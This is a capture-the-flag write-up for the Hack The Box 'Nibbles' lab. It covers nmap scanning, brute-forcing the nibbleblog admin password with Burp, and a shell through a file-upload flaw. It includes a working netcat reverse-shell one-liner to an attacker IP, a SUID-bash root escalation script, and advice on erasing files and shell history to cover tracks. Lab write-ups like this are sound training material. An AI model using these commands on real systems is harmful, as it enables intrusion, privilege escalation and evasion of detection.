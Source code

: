## Hackthebox 		Nibbles (10.129.3.40)


### Enumeration

I'll start off with an nmap scan and we notice only ports 22 ssh, and 80 web are open.


	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
	|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
	80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=10/3%OT=22%CT=%CU=38158%PV=Y%DS=2%DC=T%G=N%TM=66FEE817%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%TS=3)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
	ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 0.699 days (since Wed Oct  2 21:07:09 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=252 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 80/tcp)
	HOP RTT      ADDRESS
	1   61.98 ms 10.10.14.1
	2   62.02 ms 10.129.3.40

	Read data files from: /usr/share/nmap
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

### Further enum - next I'll run an nmap vuln scan against port 80 followed by an nmap script http scan.

nmap --script= vuln -T4 -oN nmap-vuln-scan.nmap 10.129.3.40

nmap --script- http-* -T4 -oN nmap-http-scan.nmap 10.129.3.40

![website](/Nibbles/images/nibbles.png) 

The website just says 'hello world' I looks to be an apache server v 2.4

My nmap vuln scan didn't return any useful results however, when I was waiting it to finish I viewed the source code of the web page and found there is a /nibbleblog/ directory. And it is a working directory.

![website](/Nibbles/images/source.png) 

I also found a readme page that shows us it's running nibbleblog v 4.0.3

![website](/Nibbles/images/readme.png) 

These were all the directories that returned a 200 response after running a gobutser scan.

![website](/Nibbles/images/dir-enum.png) 

Under the /content/private directory I found a users.xml file that had a username of admin.

![website](/Nibbles/images/user.png) 

Since I know there is an admin user and I can't find a password I decided to run cewl against the site to generate an uppercase and lowercase wordlist.

![website](/Nibbles/images/cewl.png) 

![website](/Nibbles/images/cewl2.png) 

Next, I'll caputer one of the post requests with burp and send it to intrude and set the payload value to password and run my wordlists and see if I get any hits. Just load the word list and make sure payload is set on the password variable and hit Start attack.


![website](/Nibbles/images/burp.png) 

![website](/Nibbles/images/burp2.png) 

Oops it looks like a triggered a security mechanism to prevent brute force attacks against the website however, I did get a 200 response from the password Nibbles before I got blacklisted LOL. I might have to wait a while or just reset the box but now I have a working username and password. This is one thing to watch out for when brute forcing websites and services.

![website](/Nibbles/images/200.png) 

![website](/Nibbles/images/admin.png) 

After waiting a bit I was able to login to the admin page.

![website](/Nibbles/images/login.png) 

Using searchsploit I find that there's also a metasploit file upload vulnerability and it's for the version we have 4.0.

![website](/Nibbles/images/foothold.png) 

### Foothold

I did finally get the metasploit module working and I'll show that really quick. But you can also upload a php reverse shell through the plugins --> My image --> upload. and then just go to /content/private/images/<shell name>. But heres the metaslpoit way.

With these options set we should get a shell.

![website](/Nibbles/images/metasploit.png) 


Well need to set the following options for the module. And we can try and run it and see if we get a shell.

![website](/Nibbles/images/shell.png) 


### Privilege Escalation

We do get a shell as the user nibbler. We can now grab the user.txt flag and running sudo -l shows

	User nibbler may run the following commands on Nibbles:
	    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


there is no personal directory but there is a personal.zip file if we unzip it it creates the /personal/stuff/monitor.sh path and shell.

if we just echo this to monitor.sh is should give us a root shell.

	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.240 1234 >/tmp/f


![foothold](/Nibbles/images/pre-root.png) 

Now I'll set a netcat lister on port 1234 on my attack box and run sudo /home/nibbler/personal/stuff/monitor.sh and it should give us a root shell.

And we do get a root shell and can now grab the root.txt flag.

![foothold](/Nibbles/images/root.png) 

Now if you're going for your OSCP and don't want to burn your metasploit useage or have already used it there is another way to get a shell with out Metasploit.

We can use our credentials of admin:nibbles to login to the admin page. Go to plugins --> my image --> unload a php reserse shell on the host. It will throw a lot of errors but it does work. If you are on kali a good one is at /usr/share/webshells/php/.

Once the php file is uploaded if we go to /nibbleblog/content/private/plugins/my_image we should find our reverse shell and make sure you have a listener set up and click on the image file to spawn the shell.

![foothold](/Nibbles/images/plugin.png) 

![foothold](/Nibbles/images/alt.png) 

We can also try something else for priv esc. Instead of writing a reverse shell to monitor.sh which might flag us flags by network EDR's we can try a script like the following:

	$!/bin/bash

	/bin/chmod u+s /bin/bash && /bin/cp /bin/bash /tmp/bash

In theory after we execute monitor.sh it should set the u & s bits on bash and them copy it to tmp. From there we can either cd to the tmp directory or just /tmp/bash -p to get root privileges on the host.

![foothold](/Nibbles/images/chmod.png) 

It definitely copied /bin/bash to the temp directory but that isn't all we wanted. I modified our script a litle bit. Let's see if it will work now.

![foothold](/Nibbles/images/modify.png) 

Still no luck, However, checking the permissions of /bin/bash it did get the s system varible added to it so we should just be able to execute /bin/bash -p and still get a root shell. It didn't copy it to /tmp with the permissions set like we wanted but still just executing /bin/bash -p does give us root on the box. 

![foothold](/Nibbles/images/root2.png) 

Don't forget to cleanup all the scripts and bash binaries we left in /tmp before leaving. Don't wanna leave too many footprints lazying around ;) 

I copied the personal.zip file to my attack machine before I started messing around with it on the target, also that way I could replace it later. I deleted the /personal /stuff directories it made under the nubbler user and all the binaries in /tmp. Back to personal.zip in nibbler directory. We're on our way to coverying all our tracks. Don't forget about those history files either. Welp that's all for now.

![foothold](/Nibbles/images/cleanup.png) 
